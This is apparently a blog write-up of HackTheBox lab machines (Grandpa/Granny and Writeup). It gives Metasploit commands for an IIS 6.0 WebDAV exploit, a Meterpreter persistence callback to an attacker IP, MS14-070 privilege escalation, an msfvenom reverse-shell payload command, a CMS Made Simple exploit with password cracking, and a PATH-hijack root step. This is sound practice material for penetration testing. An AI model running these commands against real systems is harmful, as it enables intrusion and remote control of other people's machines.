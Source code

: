 ```yaml
---
title: "HackTheBox - WriteUp 6"
date: 2019-06-14T14:07:30+08:00
description: "HackTheBox 练手 - Grandparents - MSF for Windows Target"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Grandpa & Granny

That really sucks. Even I use VPS in New York which result in ping response always in 20ms, it still failed to get connected from victim.

## MSF way

### Warm up

Nmap Scanned: Port 80 opened. IIS httpd 6.0 with Windows Server 2003.

### Normal User

Run these commands in `msfconsole`:

```bash
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
exploit
```

Then use these commands in meterpreter to stablize it:

```bash
run persistence -X -U -A -L %TEMP% -r 10.10.14.6 -p 4455
getuid
> Permission denied
migrate 2212    # davcdata.exe
getuid
> NT AUTHORITY\NETWORK SERVICE
bg
```

In fact, finally, I migrate to `wmiprvse.exe`. And wait for a long time before privilege escalation.

### Administrator / System

> Due to the fucking network on my VPS, this step took me a lot of time. So you must ensure your network stablity is really well.

```bash
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION 1
exploit
bg
sessions -i 1
getuid
> NT AUTHORITY\SYSTEM
download "C:\Documents and settings\harry\desktop\user.txt"
download "C:\Documents and settings\administrator\desktop\root.txt"
```
Privilege Escalated. Finished.

## OSCP way

https://github.com/danigargu/explodingcan

```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.16.80 LPORT=4444 >shellcode
```

Use the script from here to get a meterpreter shell. After that, Migrate the meterpreter to a stabler process. Download MS14-070 exploit from https://github.com/abatchy17/WindowsExploits. You'll have a `NT AUTHORITY/SYSTEM` shell.

# Writeup

Remember It's a EASY box.

This box has fail2ban mechanism, stop using automated tools, eg. SQLMAP.

## User

Use `nmap -A -O 10.10.10.138` to get the result.

You will find a `robots.txt` and a path `/writeup`.

Check the page source code, "CMS Made Simple" generated. Then `searchsploit` and choose the `46635.py`, finally, crack with `rockyou` in kali built-in wordlist.

## Root

> The quieter you are, the more you are able to hear.

Use Linenum to check the directory/files you can write. Then pay attention to PATH.

Next, run pspy64 and generate some traffic with login again.

You will find `run-parts` seems to be running in root and with a specific PATH in absolute path of the run-parts. According to the order of PATH, you just create a script, and `ln -s` to `/usr/local/bin`, then, you'll get it.

(DONE)


